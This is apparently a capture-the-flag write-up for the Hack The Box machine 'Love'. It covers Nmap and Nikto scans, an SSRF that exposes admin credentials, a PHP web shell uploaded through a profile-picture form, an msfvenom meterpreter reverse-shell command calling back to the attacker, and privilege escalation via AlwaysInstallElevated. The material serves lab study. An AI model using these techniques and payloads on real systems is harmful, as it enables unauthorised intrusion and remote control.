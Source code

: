 
# Enum

#### Nmap Scan

```Text
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   NCP, NULL: 
|_    Host '10.10.14.86' is not allowed to connect to this MariaDB server
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=8/2%Time=6107E499%P=x86_64-pc-linux-gnu%r(NUL
SF:L,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.86'\x20is\x20not\x20allowe
SF:d\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(NCP,4A,"F\0\0
SF:\x01\xffj\x04Host\x20'10\.10\.14\.86'\x20is\x20not\x20allowed\x20to\x20
SF:connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h54m45s, deviation: 4h02m31s, median: 34m43s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-08-02T06:02:06-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-02T13:02:03
|_  start_date: N/A

PORT      STATE SERVICE    VERSION
5985/tcp  open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http   Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_ssl-date: 2021-08-02T13:09:47+00:00; +34m44s from scanner time.
| tls-alpn: 
|_  http/1.1
7680/tcp  open  pando-pub?
47001/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 34m43s
```

#### Nikto Scan

```Text
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.239
+ Target Hostname:    10.10.10.239
+ Target Port:        80
+ Start Time:         2021-08-02 18:38:13 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
+ Retrieved x-powered-by header: PHP/7.3.27
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Cookie PHPSESSID created without the httponly flag
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3268: /includes/: Directory indexing found.
+ OSVDB-3092: /includes/: This might be interesting...
+ OSVDB-3093: /admin/index.php: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /Admin/: This might be interesting...
+ 8675 requests: 2 error(s) and 15 item(s) reported on remote host
+ End Time:           2021-08-02 19:12:34 (GMT5.5) (2061 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

***

### Enumrating Sub-Domins

From the above Nmap Scap Found these Domains

- staging.love.htb

- www.love.htb

***

**added `staging.love.htb` into `/etc/hosts` file** 

Demo page have a file scan option

- LFI/RFI seems not to be working here

- Entered 127.0.0.1:5000 ; using server to read internal resources (`SSRF`)

And we the credentials ==> admin: @LoveIsInTheAir!!!!

***

# Getting a Rev Shell

**Found credentials can be used to login into the main page**

- The Profile page have option to upload a pic, but maybe a shell can also be uploaded

- https://github.com/artyuum/Simple-PHP-Web-Shell/blob/master/index.php  <== Used this awesome webshell 

- uploaded the shell and that can be accessed `/images/` which was found during **`Dir Fuzzing`**

**Rev-Shell :**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.86 LPORT=4242 -f exe -o rev.exe
```
- uploaded rev.exe and executed it using `WEB-Shell` 

***
maybe the above shell can be activated without using **webshell**. I was using **nc.exe** before this **msfvenom** generated shell, which required **webshell** to activate but **nc.exe** had some limitations in shell. I was using **metasploit** for listing on port for connection

***

# Prev Esc

- Uploaded winPeas64.exe

- From The WinPease Scan , determined `exploit/windows/local/always_install_elevated` Metasploit module can be used

- https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated

***
